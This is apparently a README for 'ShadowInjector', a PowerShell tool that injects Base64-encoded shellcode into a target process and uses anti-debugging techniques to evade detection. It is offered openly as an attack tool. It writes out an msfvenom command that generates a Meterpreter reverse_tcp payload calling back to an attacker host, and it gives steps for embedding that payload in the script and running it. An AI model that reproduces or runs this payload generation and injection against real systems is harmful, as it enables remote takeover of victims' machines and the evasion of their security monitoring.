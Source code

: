 # ShadowInjector
A sophisticated PowerShell script that stealthily injects Base64-encoded shellcode into the target process, featuring anti-debugging techniques to evade detection.



## Running the Script
You can create the malicious payload as follows.

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local_ip LPORT=local_port -f csharp

Add the generated code to the "add_shell_code_here" section in the script.

To run the script, open a PowerShell window and execute the following command:

.\ShadowInjector.ps1


